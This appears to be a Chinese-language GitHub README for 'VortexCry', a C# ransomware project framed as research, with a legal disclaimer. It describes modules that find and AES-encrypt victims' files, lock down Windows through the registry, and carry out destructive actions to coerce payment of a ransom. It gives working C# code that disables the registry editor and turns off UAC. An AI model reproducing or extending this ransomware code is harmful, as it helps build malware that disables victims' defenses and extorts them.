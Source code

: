 # VortexCry 勒索软件研究项目 
 
## 项目简介 
本项目旨在通过使用 C# 编写勒索软件 VortexCry，深入研究勒索软件的工作原理，为网络安全防护提供更具针对性的思路。请注意，本项目仅用于技术研究和学习，严禁将相关代码用于任何非法活动。 
 
## 技术准备 
### 编程语言基础 
- C# 语法规则：全面复习 C# 语言的语法规则，包括变量声明、数据类型转换、流程控制语句（如 if - else、for、while 循环）等，为编写复杂功能模块打下基础。 
- 面向对象编程（OOP）：深入学习 C# 面向对象编程特性，如类、对象、继承、多态、封装等，以类的形式组织文件操作、加密解密、用户交互以及系统操作等功能模块，提高代码的可维护性。 
 
### 核心技术知识储备 
- 文件操作：掌握文件遍历和处理的方法，用于定位和加密目标文件。 
- 加密算法：了解 AES 等加密算法，实现文件的加密和解密。 
- 系统操作：熟悉 Windows 注册表操作和系统底层操作，如禁用注册表编辑器、控制面板、任务管理器，关闭用户账户控制（UAC）等。 
 
## 项目结构 
文件遍历模块 
用于遍历和处理文件，定位需要加密的目标文件。提供接口定义和具体的类实现，展示如何通过 C# 代码实现文件遍历功能。 
 
### 注册表配置模块 
用于修改注册表以限制用户操作，包括禁用注册表编辑器、控制面板、任务管理器，关闭用户账户控制（UAC），启用或禁用 Windows 功能限制，配置命令提示符（CMD）的状态等。 
 
### 系统操作模块 
执行更底层的系统破坏操作，增强勒索软件的破坏性和威胁性，胁迫用户尽快支付赎金。 
 
## 代码示例 
以下是部分关键代码示例： 
```csharp 
// 禁用注册表编辑器 
public void DisableRegistryEdit() 
{ 
    // 在 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System 路径下创建或修改 DisableRegistryTools 值 
    RegistryKey key = Registry.CurrentUser.OpenSubKey(@"Software\Microsoft\Windows\CurrentVersion\Policies\System", true); 
    if (key == null) 
    { 
        key = Registry.CurrentUser.CreateSubKey(@"Software\Microsoft\Windows\CurrentVersion\Policies\System"); 
    } 
    key.SetValue("DisableRegistryTools", 1, RegistryValueKind.DWord); 
    key.Close(); 
} 
 
// 关闭用户账户控制（UAC） 
public void DisableUAC() 
{ 
    // 在 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System 路径下创建或修改 EnableLUA 值为 0 
    RegistryKey key = Registry.LocalMachine.OpenSubKey(@"SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System", true); 
    if (key == null) 
    { 
        key = Registry.LocalMachine.CreateSubKey(@"SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"); 
    } 
    key.SetValue("EnableLUA", 0, RegistryValueKind.DWord); 
    key.Close(); 
} 
``` 
 
## 免责声明 
本项目仅作技术探讨与研究用途，严禁将相关代码用于任何非法活动，否则后果自负。 
 
## 贡献 
如果你对本项目有任何建议或改进意见，欢迎提交 Pull Request 或 Issue。 
